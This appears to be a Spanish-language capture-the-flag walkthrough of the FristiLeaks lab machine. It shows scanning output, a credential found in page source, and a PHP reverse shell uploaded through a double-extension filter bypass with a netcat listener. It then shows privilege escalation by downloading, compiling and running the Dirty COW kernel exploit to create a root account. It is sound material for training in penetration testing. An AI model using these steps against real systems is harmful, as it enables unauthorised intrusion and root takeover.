




# Fristileaks

## Fase de Fingerprinting / Reconocimiento (Reconnaissance): 

### Descubrimiento de IP objetivo en la red

```bash
sudo netdiscover -r 10.0.2.0/24 -i eth0
```
### Descubrimiento de puertos y servicios en el host objetivo

```
sudo nmap -sS -sC -sV -O 10.0.2.5  
```

PORT   | STATE | SERVICE | VERSION
-------|-------|---------|-----------------------------------------------
80/tcp | open  | http    | Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)

## Fase de Footprinting / Exploración (Scanning):

### Exploracion puerto 80

#### nuclei

[INF] Current nuclei version: v3.2.6 (outdated)
[INF] Current nuclei-templates version: v9.8.6 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 65
[INF] Templates loaded for current scan: 7957
[INF] Executing 7957 signed templates from projectdiscovery/nuclei-templates
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1483 (Reduced 1402 Requests)
[http-trace:trace-request] [http] [info] http://10.0.2.7
[http-trace:options-request] [http] [info] http://10.0.2.7
[INF] Using Interactsh Server: oast.online
[options-method] [http] [info] http://10.0.2.7 ["GET,HEAD,POST,OPTIONS,TRACE"]
[apache-detect] [http] [info] http://10.0.2.7 ["Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3"]
[php-detect] [http] [info] http://10.0.2.7
[http-missing-security-headers:content-security-policy] [http] [info] http://10.0.2.7

#### nikto

─$ nikto -h 10.0.2.7
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.7
+ Target Hostname:    10.0.2.7
+ Target Port:        80
+ Start Time:         2024-05-14 18:39:24 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
+ /: Server may leak inodes via ETags, header found with file /, inode: 12722, size: 703, mtime: Tue Nov 17 13:45:47 2015. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /robots.txt: Entry '/cola/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/sisi/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/beer/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: contains 3 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ PHP/5.3.3 appears to be outdated (current is at least 8.1.5), PHP 7.4.28 for the 7.4 branch.
+ Apache/2.2.15 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE .
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ PHP/5.3 - PHP 3/4/5 and 7.0 are End of Life products without support.
+ /icons/: Directory indexing found.
+ /images/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8911 requests: 0 error(s) and 16 item(s) reported on remote host
+ End Time:           2024-05-14 18:39:43 (GMT-4) (19 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


en la navegacion:

@meneer, @barrebas, @rikvduijn, @wez3forsec, @PyroBatNL, @0xDUDE, @annejanbrouwer, @Sander2121, Reinierk, @DearCharles, @miamat, MisterXE, BasB, Dwight, Egeltje, @pdersjant, @tcp130x10, @spierenburg, @ielmatani, @renepieters, Mystery guest, @EQ_uinix, @WhatSecurity, @mramsmeets, @Ar0xA


#### Dirb con common.txt de Seclist:

WORDLIST_FILES: /usr/share/seclists/Discovery/Web-Content/common.txt

-----------------

GENERATED WORDS: 4726

---- Scanning URL: http://10.0.2.4/ ----
+ http://10.0.2.4/cgi-bin/ (CODE:403|SIZE:210) 
==> DIRECTORY: http://10.0.2.4/images/
+ http://10.0.2.4/index.html (CODE:200|SIZE:703)
+ http://10.0.2.4/robots.txt (CODE:200|SIZE:62)


**Tras varios intentos de conseguir más directorios, encontramos el directorio */fristi* con un panel de login**


En la pagina http://10.0.2.7/fristi/
miramos el codigo 
view-source:http://10.0.2.7/fristi/


Obtengo:
<!-- 
iVBORw0KGgoAAAANSUhEUgAAAW0AAABLCAIAAAA04UHqAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAARSSURBVHhe7dlRdtsgEIVhr8sL8nqymmwmi0kl
S0iAQGY0Nb01//dWSQyTgdxz2t5+AcCHHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixw
B4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL5kc+f
m63yaP7/XP/5RUM2jx7iMz1ZdqpguZHPl+zJO53b9+1gd/0TL2Wull5+RMpJq5tMTkE1paHlVXJJ
Zv7/d5i6qse0t9rWa6UMsR1+WrORl72DbdWKqZS0tMPqGl8LRhzyWjWkTFDPXFmulC7e81bxnNOvb
DpYzOMN1WqplLS0w+oaXwomXXtfhL8e6W+lrNdDFujoQNJ9XbKtHMpSUmn9BSeGf51bUcr6W+VjNd
jJQjcelwepPCjlLNXFpi8gktXfnVtYSd6UpINdPFCDlyKB3dyPLpSTVzZYnJR7R0WHEiFGv5NrDU
12qmC/1/Zz2ZWXi1abli0aLqjZdq5sqSxUgtWY7syq+u6UpINdOFeI5ENygbTfj+qDbc+QpG9c5
uvFQzV5aM15LlyMrfnrPU12qmC+Ucqd+g6E1JNsX16/i/6BtvvEQzF5YM2JLhyMLz4sNNtp/pSkg1
04VajmwziEdZvmSz9E0YbzbI/FSycgVSzZiXDNmS4cjCni+kLRnqizXThUqOhEkso2k5pGy00aLq
i1n+skSqGfOSIVsKC5Zv4+XH36vQzbl0V0t9rWb6EMyRaLLp+Bbhy31k8SBbjqpUNSHVjHXJmC2Fg
tOH0drysrz404sdLPW1mulDLUdSpdEsk5vf5Gtqg1xnfX88tu/PZy7VjHXJmC21H9lWvBBfdZb6Ws
30oZ0jk3y+pQ9fnEG4lNOco9UnY5dqxrhk0JZKezwdNwqfnv6AOUN9sWb6UMyR5zT2B+lwDh++Fl
3K/U+z2uFJNWNcMmhLzUe2v6n/dAWG+mLN9KGWI9EcKsMJl6o6+ecH8dv0Uu4PnkqDl2rGuiS8HK
ul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12q
mD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34
rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFhe
EPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLH
AHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzk
CwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJR
U5ErkJggg==
-->

lo paso a ciberchef pasandole FROM base64


le doy a guardar

y obtengo un fichero .png

al abrirlo tengo 


En la misma pagina en el encabezado tenemos:

meta name="description" content="super leet password login-test page. We use base64 encoding for images so they are inline in the HTML. I read somewhere on the web, that thats a good way to do it."

TODO:
We need to clean this up for production. I left some junk in here to make testing easier.

by eezeepz


eezeepz puede ser usuario y con el keKkeKKeKKeKkEkkEk de antes.


Una vez iniciado sesión vemos que podemos subir archivos .jpg , .png , .gif.

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Ahora editamos el php-reverse-shell.php


En donde pone CHANGE THIS.
IP -> La atacante, la nuestra.
Puerto -> El que queramos.

Como comprobais, no se puede subir archivo con extensión .php, pero si probamos a ponerle extensión .png delante, es decir: php-reverse-shell.php.png, si deja.

No olvideis hacer el ``nc -nlvp 443``

Ruta del archivo : ip/fristi/uploads/php-reverse-shell.php.png

Una vez obtenida para tener una shell completa hacemos estos pasos:

script /dev/null -c bash
Pulso CTRL + Z para dejar la zsh suspendida
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash

uname -a

2.6.32




site:exploit-db.com Linux Kernel 2.6




Dirty COW exploit.


└─$ cp /usr/share/exploitdb/exploits/linux/local/40839.c /home/kali 


https://www.exploit-db.com/exploits/40839


python3 -m http.server 8080




descargo el 40839.c en fristi con wget <ipkali:8080/40839.c>


compilar exploit en la maquina objetivo


gcc -pthread 40839.c -o dirty -lcrypt

chmod  +x dirty

run exploit : ./dirty



nos pide clave pero le pulso intro y nos crea el usuario firefart con permisos root

